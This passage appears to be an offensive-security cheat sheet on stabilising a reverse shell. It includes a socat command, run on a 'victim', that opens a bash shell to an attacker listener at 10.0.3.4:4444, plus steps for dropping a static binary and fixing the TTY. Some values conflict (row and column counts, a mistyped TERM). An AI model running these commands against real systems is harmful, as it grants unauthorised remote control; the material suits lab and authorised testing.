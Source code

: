 On Victim (launch):

```none
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```

If socat isn't installed, download standalone binaries that can be downloaded from [static binaries](https://github.com/andrew-d/static-binaries)

Download the correct binary architecture of socat to a writable directory, chmod it, execute

### stty

Use the methods mentioned in :ref:`spawning-a-tty-shell`

Once bash is running in the PTY, background the shell with Ctrl-Z
While the shell is in the background, examine the current terminal and STTY info so we can force the connected shell to match it

```none
echo $TERM
xterm-256color
```

```none
stty -a
speed 38400 baud; rows 59; columns 264; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;   discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```

The information needed is the TERM type ("xterm-256color") and the size of the current TTY ("rows 38; columns 116")

With the shell still backgrounded, set the current STTY to type raw and tell it to echo the input characters with the following command:

```none
stty raw -echo 
```

With a raw stty, input/ output will look weird and you won't see the next commands, but as you type they are being processed.

Next foreground the shell with fg. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with reset.

After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

```none
$export SHELL=bash
$export TERM=xterm256-color
$stty rows 38 columns 116
```
